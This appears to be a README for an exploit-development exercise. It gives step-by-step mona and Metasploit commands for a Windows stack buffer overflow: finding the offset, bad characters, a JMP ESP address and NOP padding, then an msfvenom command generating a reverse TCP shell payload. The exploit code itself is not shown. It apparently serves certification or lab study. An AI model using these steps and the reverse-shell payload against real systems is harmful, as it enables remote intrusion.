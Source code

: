 # How to use it

1 - Mona Configuration
!mona config -set workingfolder c:\mona\%p (Configure mona)

2 - Fuzzer payload

3 - Crash Replication & Controlling EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600 (Change the -l value to the value that crashed the server)
Exploit payload

4 - Search Offset
!mona findmsp -distance 600 (Change the -l value to the value that crashed the server to find the EIP)
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
!mona bytearray -b "\x00"
badcharacter payload
update the payload
!mona compare -f C:\mona\oscp\bytearray.bin -a <address> (Address EIP)
and try to find the badcharacters

6 - Find a Jump Point
!mona jmp -r esp -cpb "\x00" 
Find a jump point (Search de addres to set on the exploit in the part of "retn")

7 - Prepend NOPs
padding = "\x90" * 16

8 - Create Shell
msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c

9 - Netcat listener

10 - exploit!
